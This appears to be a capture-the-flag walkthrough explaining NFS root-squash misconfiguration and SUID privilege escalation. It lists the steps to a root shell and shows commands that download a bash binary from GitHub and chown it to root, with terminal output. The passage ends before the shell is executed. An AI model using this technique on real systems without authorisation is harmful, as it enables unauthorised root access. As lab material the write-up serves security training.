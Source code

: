 #### SUID
So, what are files with the SUID bit set? Essentially, this means that the file or files can be run with the permissions of the file(s) owner/group. In this case, as the super-user. We can leverage this to get a shell with these privileges!

#### Methodology
This sounds complicated, but really- provided you're familiar with how SUID files work, it's fairly easy to understand. We're able to upload files to the NFS share, and control the permissions of these files. We can set the permissions of whatever we upload, in this case a bash shell executable. We can then log in through SSH, as we did in the previous task- and execute this executable to gain a root shell!

We can use [this](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) Ubuntu Server 18.04 bash executable.

#### Recap on What Should We Do
1. NFS Access 
2. Gain Low Privilege Shell 
3. Upload Bash Executable to the NFS share 
4. Set SUID Permissions Through NFS Due To Misconfigured Root Squash 
5. Login through SSH
6. Execute SUID Bit Bash Executable 
7. ROOT ACCESS

#### Answer
First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.
```bash
$ cd /tmp/mount/cappucino
```

Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"
```bash
# Download the bash file
$ wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
...
HTTP request sent, awaiting response... 200 OK
Length: 1113504 (1.1M) [application/octet-stream]
Saving to: ‘bash’

bash                     100%[==================================>]   1.06M  1.87MB/s    in 0.6s    

2021-01-07 01:48:32 (1.87 MB/s) - ‘bash’ saved [1113504/1113504]

$ ls
bash

# Change the permission to user: root
$ ls -l bash 
-rw-r--r-- 1 kali kali 1113504 Jan  7 01:48 bash
$ sudo chown root bash                            
[sudo] password for kali: 
$ ls -l bash     
-rw-r--r-- 1 root kali 1113504 Jan  7 01:48 bash
```
